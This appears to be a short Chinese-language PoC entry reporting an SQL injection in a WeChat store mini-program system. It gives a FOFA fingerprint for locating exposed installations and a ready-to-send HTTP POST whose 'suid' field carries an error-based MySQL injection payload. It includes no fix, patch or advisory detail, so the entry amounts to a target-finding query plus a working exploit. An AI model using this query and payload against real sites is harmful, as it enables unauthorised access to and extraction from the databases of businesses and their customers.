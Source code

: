 # 微信万能门店小程序系统存在SQL注入漏洞

# 一、漏洞简介
万能门店微信小程序不限制小程序生成数量，支持多页面，预约功能等。 本套源码包含多商户插件、点餐插件、拼团插件、积分兑换、小程序手机客服等全套十个插件模块。支持后台一键扫码上传小程序，和后台通用模板。微信万能门店小程序系统存在SQL注入漏洞

# 二、影响版本
+ 微信万能门店小程序系统

# 三、资产测绘
+ fofa`<font style="color:rgb(221, 17, 68);">"/comhome/cases/index.html"</font>`
+ 特征

![1732115890021-a19be87f-f478-4ee9-971e-bdbeb555e80f.png](./img/mzSFGhMGF76yKh7v/1732115890021-a19be87f-f478-4ee9-971e-bdbeb555e80f-603008.png)

# 四、漏洞复现
```java
POST /api/wxapps/doPageGetFormList HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9,ru;q=0.8,en;q=0.7
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
 
suid=' AND GTID_SUBSET(CONCAT((SELECT (VERSION()))),1)-- bdmV
```

![1732589208600-f4a25dbf-20d0-4c2d-b78f-6fb8415535e0.png](./img/mzSFGhMGF76yKh7v/1732589208600-f4a25dbf-20d0-4c2d-b78f-6fb8415535e0-164809.png)



> 更新: 2024-11-27 10:00:05  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/pg8al3o5uwx56x74>